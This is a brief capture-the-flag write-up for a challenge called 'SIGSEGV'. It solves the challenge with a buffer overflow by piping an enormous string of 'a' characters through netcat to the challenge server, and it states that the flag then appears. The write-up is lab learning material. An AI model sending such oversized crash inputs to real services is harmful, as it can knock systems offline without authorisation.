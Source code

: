 # SIGSEGV

### Prerequires:

- Nothing

-----------------

- With the name of the challenge we know we have to do a Buffer Overflow, then I use print in py:

`python3 -c "print('a'*1000000000)" | nc challenges.0x0539.net 7071`

- And the flag will appear
